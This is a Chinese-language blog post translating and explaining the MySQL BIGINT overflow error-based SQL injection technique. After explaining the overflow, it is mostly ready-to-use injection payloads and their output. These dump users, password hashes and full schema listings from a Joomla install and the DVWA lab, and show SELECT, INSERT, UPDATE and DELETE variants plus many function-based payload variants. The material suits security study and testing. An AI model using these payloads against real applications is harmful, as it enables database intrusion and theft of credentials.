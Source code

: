 ```yaml
---
layout: post
title: BIGINT Overflow Error Based SQL Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

>根据Mysql BIGINT数据类型，结合Mysql两个小特性，巧妙的构造出新型报错注入。Paper翻译自<a target="_blank" href="https://www.exploit-db.com/docs/37733.pdf">BIGINT Overflow Error Based SQL Injection</a>，这里就分析下此报错注入的方式与原理。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先看看Mysql(>=5.5.5)如何存储整数的，之前的版本当整数溢出的时候不会报错。<a target="_blank" href="http://dev.mysql.com/doc/refman/5.5/en/integer-types.html">Integer Types (Exact Value)</a>**

<img src="http://pfr2vvlbk.bkt.clouddn.com/i76ryjtgdh.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**BIGINT数据类型的长度为8字节(64Bytes)，分别用二进制、十进制、十六进制的`signed/unsigned`表示最大值:**

	#signed - Binary、Decimal、Hex
	0b0111111111111111111111111111111111111111111111111111111111111111
	9223372036854775807
	0x7fffffffffffffff

	#unsigned - Binary、Decimal、Hex
	0b1111111111111111111111111111111111111111111111111111111111111111
	18446744073709551615
	0xFFFFFFFFFFFFFFFF

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**分别将`signed/unsigned`的BIGINT最大值进行数学计算，来证明报错的原因：**

	#signed
	mysql> select cast(x'7fffffffffffffff' as signed)/9223372036854775807;
	+---------------------------------------------------------+
	| cast(x'7fffffffffffffff' as signed)/9223372036854775807 |
	+---------------------------------------------------------+
	|                                                  1.0000 |
	+---------------------------------------------------------+
	1 row in set (0.00 sec)
	mysql> select cast(x'7fffffffffffffff' as signed)+1;
	ERROR 1690 (22003): BIGINT value is out of range in '(cast(0x7fffffffffffffff as signed) + 1)'
	
	#unsigned
	mysql> select 18446744073709551615-1;
	+------------------------+
	| 18446744073709551615-1 |
	+------------------------+
	|   18446744073709551614 |
	+------------------------+
	1 row in set (0.00 sec)
	mysql> select 18446744073709551615+1;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**由此看出当BIGINT最大值进行增值运算的时候，`signed/unsigned`都会爆出`BIGINT value is out of range`的错误，也就是溢出了。还有就是Mysql逐位取反的特性，打个比方：**

	mysql> select ~0;
	+----------------------+
	| ~0                   |
	+----------------------+
	| 18446744073709551615 |
	+----------------------+
	1 row in set (0.00 sec)
	mysql> select ~18446744073709551615;
	+-----------------------+
	| ~18446744073709551615 |
	+-----------------------+
	|                     0 |
	+-----------------------+
	1 row in set (0.00 sec)
	
	mysql> select 1-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(0))'
	
	mysql> select 1+~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**也就是说从0逐位取反，得到的数字也正是BIGINT中unsigned的数值范围，这个数值进行数学运算时同样会出现溢出错误。那么怎样能在实际应用当中利用上这个报错呢？接下来就说到了Mysql子查询的一个特性，当查询结果成功返回时，返回值为0，表达式进行逻辑非运算后，返回值则为1，并且这个返回值也可以进行数学运算：**

	mysql> select !(select*from(select user())x)+1;
	+----------------------------------+
	| !(select*from(select user())x)+1 |
	+----------------------------------+
	|                                2 |
	+----------------------------------+
	1 row in set (0.00 sec)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**根据子查询的特点，再结合BIGINT逐位取反的溢出报错。我们就可以进行报错注入了：**

	mysql> select !(select*from(select user())x)-~18446744073709551615;
	+------------------------------------------------------+
	| !(select*from(select user())x)-~18446744073709551615 |
	+------------------------------------------------------+
	|                                                    1 |
	+------------------------------------------------------+
	1 row in set (0.00 sec)
	
	mysql> select !(select*from(select user())x)-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'
	
	mysql> select (select(!x-~0)from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
    
    mysql> select (select!x-~0.from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然可以通过BIGINT溢出配合子查询进行报错注入，那么就可以在实战当中获取到更多的数据：**

	mysql> select !(select*from(select concat_ws(':',id, username, password) from k8fzi_users limit 0,1)x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '533:admin:$2y$10$wE6S6EEj5Xc3/Jo8rQDSAu0mxQr2FmZJmT4SlsXL8PdM8Ymb/82Ly' from dual))) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**因为是BIGINT数值范围溢出特点，那么Mysql中很多数学函数也可以应用到，Mysql的语法灵活，这些数学函数是可以嵌套表达式的，然后将返回值进行运算。**

    select !hex((select*from(select user())x))-~0;
    select !ceil((select*from(select user())x))-~0;
    select !atan((select*from(select user())x))-~0;
    select !rand((select*from(select user())a))-~0;
    select !sqrt((select*from(select user())a))-~0;
    select !round((select*from(select user())a))-~0;
    select !sign((select*from(select user())a))-~0;
    select !floor((select*from(select user())a))-~0;
    select !tan((select*from(select user())a))-~0;
    select !ceiling((select*from(select user())a))-~0;
    select !exp((select*from(select user())x))-~0;
    select !(select*from(select user())a)-~1^200;

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然是报错类型的注入，那么一次性存储也是可以的：**

    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x2d2d,table_name,0x2d2d,column_name)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    joomla_3.4.4--k8fzi_assets--id
    joomla_3.4.4--k8fzi_assets--parent_id
    joomla_3.4.4--k8fzi_assets--lft
    joomla_3.4.4--k8fzi_assets--rgt
    joomla_3.4.4--k8fzi_assets--level
    joomla_3.4.4--k8fzi_assets--name
    joomla_3.4.4--k8fzi_assets--title
    joomla_3.4.4--k8fzi_assets--rules
    joomla_3.4.4--k8fzi_associations--id
    joomla_3.4.4--k8fzi_associations--context
    joomla_3.4.4--k8fzi_associations--key
    joomla_3.4.4--k8fzi_banner_clients--id
    joomla_3.4.4--k8fzi_banner

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**这里纠正一个Paper中错误的观点，文中提到一次性存储表列数据只能取出27行，其实这是报错信息的最大长度所决定的，如果只想取到重要信息的话，Payload中不加库名表名还有分隔符简短点就可以了，一图胜千言。**

<img src="http://pfr2vvlbk.bkt.clouddn.com/5u6ehrtsdf.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**当知道库名表名列名后，就可以构造语句获取数据了：**

    #select:
    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #insert:
    mysql> insert into users (user_id,user,password) values (2,'' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0 or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #update:
    mysql> update users set password='root' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #delete:
    mysql> delete from users where user_id='1' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'